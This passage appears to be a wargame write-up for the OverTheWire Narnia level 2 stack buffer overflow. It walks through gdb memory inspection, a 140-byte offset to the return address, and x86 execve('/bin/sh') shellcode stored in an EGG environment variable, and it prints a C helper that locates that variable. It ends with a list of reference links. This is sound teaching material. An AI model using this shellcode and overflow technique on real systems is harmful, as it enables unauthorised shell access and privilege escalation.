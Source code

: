 We run our program, feeding it with an argument of size 30 and we look to the memory (esp is the Stack pointer). The second value, **0xffffd610**, indicates the start of the frame:
```
(gdb) r `python -c 'print "B"*30'`
(gdb)  x/30xw $esp
0xffffd600: 0x08048574  0xffffd610  0x00000001  0xf7ebf729
0xffffd610: 0x42424242  0x42424242  0x42424242  0x42424242
0xffffd620: 0x42424242  0x42424242  0x42424242  0xf7004242
0xffffd630: 0x08048258  0x00000000  0x00ca0000  0x00000001
0xffffd640: 0xffffd86d  0x0000002f  0xffffd69c  0xf7fcaff4
0xffffd650: 0x08048490  0x08049750  0x00000002  0x080482fd
0xffffd660: 0xf7fcb3e4  0x00008000  0x08049750  0x080484b1
0xffffd670: 0xffffffff  0xf7e59d46
```

Now, looking  to the information about the frame, we get the return address at **0xffffd69c**:

```
(gdb) i f
Stack level 0, frame at 0xffffd6a0:
 eip = 0x8048485 in main; saved eip 0xf7e404b3
 Arglist at 0xffffd698, args:
 Locals at 0xffffd698, Previous frame's sp is 0xffffd6a0
 Saved registers:
  ebp at 0xffffd698, eip at 0xffffd69c
```

To find the size of the frame we subtract these values:

```
(gdb) p 0xffffd69c-0xffffd610
$1 = 140
```

So we know that 140 bytes are needed to reach the return address, where we will add our pointer.



### Step 3: Finding the EGG ShellCode Address

Where do we want to point the return address to? Well, we already know  a way to spawn a shell: using an environment variable:

```sh
narnia2@melinda:/tmp$ export EGG=`python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80"'
```

To find the address of **EGG** we use the following **C** code:
```c
narnia2@melinda:/tmp$ cat getbashadd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc,char *argv[]){
        char *ptr;
        ptr = getenv(argv[1]);
        ptr += (strlen(argv[0])-strlen(argv[2]))*2;
        printf("%s is at %p\n", argv[1],ptr);
        return 0;
}
```


[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP